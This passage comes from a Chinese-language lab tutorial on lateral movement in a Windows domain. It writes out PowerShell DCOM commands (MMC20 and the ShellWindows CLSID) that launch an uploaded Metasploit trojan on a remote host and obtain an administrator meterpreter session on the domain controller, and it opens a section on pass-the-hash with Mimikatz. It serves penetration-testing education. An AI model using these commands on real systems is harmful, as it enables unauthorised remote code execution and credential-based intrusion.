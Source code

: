 // 然后执行如下命令，我们就可以调用”ExecuteShellCommand”方法在远程主机上启动进程

$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c c:\\shell.exe","Minimized")

![](https://i-blog.csdnimg.cn/blog_migrate/0e231647f237d670cfd11a7d14047bc2.jpeg)

执行后，我们可以看到攻击者msfconsole成功传来了DC的meterpreter，并且权限为administrator：

![](https://i-blog.csdnimg.cn/blog_migrate/f84aa14bcafaf8e9739983ed4512c3af.jpeg)

（2）调用9BA05972-F6A8-11CF-A442-00A0C90A8F39

建立ipc连接并上传木马后，在Windows7的powershell中输入如下命令，在远程系统中运行metasploit木马程序shell.exe：

```ruby
`$com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.52.138")$obj = [System.Activator]::CreateInstance($com)$item = $obj.item()$item.Document.Application.ShellExecute("cmd.exe","/c c:\shell.exe","c:\windows\system32",$null,0)`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/b75e1e87a9782bfaef76dd0985378423.jpeg)

执行后，我们可以看到攻击者msfconsole成功传来了DC的meterpreter：

![](https://i-blog.csdnimg.cn/blog_migrate/d0750a6c395f7ec8b31bef5bd9c85a75.jpeg)

这两种方法远程执行命令的方法均适用于Windows 7~Windows 10、Windows Server 2008~Windows Server 2016。

此部分的更多详情可以看大佬的文章：

https://blog.csdn.net/qq_36119192/article/details/104148658

https://www.secshi.com/21666.html

https://cloud.tencent.com/developer/article/1171111

### 哈希传递攻击

#### 使用Mimikatz进行PTH

接下来，我们来讲解横向渗透中的哈希传递攻击，这一部分在内网渗透中是十分关键的。

在域环境中，用户登录计算机时一般使用域账号，大量计算机在安装时会使用相同的本地管理员账号和密码，因此，如果计算机的本地管理员账号和密码也相同，攻击者就能使用哈希传递攻击的方法来登录内网中的其他主机。使用该方法，攻击者不需要花费时间来对Hash进行爆破，在内网渗透里非常经典。常常适用于域/工作组环境。

Pass The Hash 哈希传递攻击简称 PTH，该方法通过找到与账户相关的密码散列值（NTLM Hash）来进行攻击。**由于在Windows系统中，通常会使用NTLM Hash对访问资源的用户进行身份认证**，所以该攻击可以在不需要明文密码的情况下，利用LM HASH和NTLM HASH直接远程登录目标主机或反弹shell。

下面演示哈希传递攻击的方法（需要管理员权限）：

![](https://i-blog.csdnimg.cn/blog_migrate/5e300b0f8a6a8f7cbfe71169b8642f74.jpeg)

如图中，右侧是一个内网环境，域名为god，有三台机器：Windows 7（跳板机）、Windows Server 2008、Windows Server 2003。
